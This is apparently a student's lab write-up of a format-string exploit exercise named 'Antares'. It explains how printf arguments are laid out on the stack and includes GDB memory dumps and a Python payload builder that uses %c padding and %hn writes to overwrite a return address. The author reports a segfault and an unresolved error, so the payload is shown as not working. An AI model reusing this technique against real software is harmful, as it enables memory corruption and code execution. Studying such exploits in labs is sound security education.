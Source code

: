 # 06 - Antares Writeup

## Main Idea

The code is vulnerable because of the printf function. We can define arguments to write what we want to memory.
Before that, we need to know the steps of printf. In that schema, arg0 is the address of the printf string. Arg1 and arg2 is the arguments of printf.
We can self-define the arguments that we want. At first, we neet to place the string address above the rip of printf. Then the printf function will use the argument above RIP of printf according to the format of string.

```plaintext
...
[  ][  ][  ][  ] <-- arg2
[  ][  ][  ][  ] <-- arg1
[  ][  ][  ][  ] <-- arg0 (&buf)
[  ][  ][  ][  ] <-- RIP of printf
[  ][  ][  ][  ] <-- SFP of printf
...
```

## Exploit Structure

First, we will place the argument we need to buffer, which is significant to what we want to write in memory.
Second, we need printf 12 characters (address of buf - address of argument1) to move the argument to the buffer.
Third, we need to modify the "byte" we have printf to overwrite the address of shellcode into RIP of calibrate by %hn and %u.

## Exploit GDB Output

before attack

```C++
(gdb) x/64x 0xffffd5b0
0xffffd5b0:     0x00000002      0x00000000      0xffffd658      0x0804928f
0xffffd5c0:     0xffffd5d0      0x08048034      0x00000020      0x00000008      
0xffffd5d0:     0x41414141      0xffffd5bc      0x41414141      0xffffd5be      
0xffffd5e0:     0x63256325      0x63256325      0x63256325      0x63256325      
0xffffd5f0:     0x63256325      0x63256325      0x32353525      0x25753637      
0xffffd600:     0x31256e68      0x33343230      0x6e682575      0x0000000a      
0xffffd610:     0x00000000      0x00000001      0x00000000      0xffffd7cb      
0xffffd620:     0x00000002      0x00000000      0x00000000      0x00000000      
0xffffd630:     0x00000000      0xffffdfe0      0xf7ffc540      0xf7ffc000      
0xffffd640:     0x00000000      0x00000000      0x00000000      0x00000000      
0xffffd650:     0x00000000      0xffffd670      0xffffd6f0      0x08049466      
0xffffd660:     0x00000002      0x0804926c      0x0804ffe8      0x08049466      
0xffffd670:     0x00000002      0xffffd6e4      0xffffd6f0      0x0804e04e      
0xffffd680:     0x00000000      0x00000000      0x08049444      0x0804ffe8      
0xffffd690:     0x00000000      0x00000000      0x00000000      0x08049097      
0xffffd6a0:     0x0804926c      0x00000002      0xffffd6e4      0x08049000 
```

after attack

```  C++
Program received signal SIGSEGV, Segmentation fault.
0x0804ad5f in printf_core (f=f@entry=0x80500c0 <__stdout_FILE>, fmt=fmt@entry=0xffffd5d0 "AAAA\274\325\377\377AAAA\276\325\377\377%c%c%c%c%c%c%c%c%c%c%c%c%55276u%hn%10243u%hn\n", ap=ap@entry=0xffffd45c, nl_arg=<optimized out>, nl_type=<optimized out>) at src/stdio/vfprintf.c:548
548     src/stdio/vfprintf.c: No such file or directory.
```

Pathetically, I do not know where the problem is.
Below is my python code.

``` python
payload = ''
payload += "A" * 4   #(consumed by %__u)
payload += '\xbc\xd5\xff\xff'    #  lower half word address of RIP that we want to overwrite
payload += 'A' * 4   #(consumed by %__u)
payload += '\xbe\xd5\xff\xff'    #  higher half word address of RIP that we want to overwrite

payload += "%c" * 12  # move the pointer of printf to buffer

cur =  12 
FIRST_HALF = 65535   # The two most significant bytes of RIP
SECOND_HALF = 55288  # The two least significant bytes of RIP

payload += '%' + str(SECOND_HALF - cur) + 'u'
payload += '%hn'

payload += '%' + str(FIRST_HALF - SECOND_HALF) + 'u'
payload += '%hn'
payload += '\0'
print(payload + '\n')
```
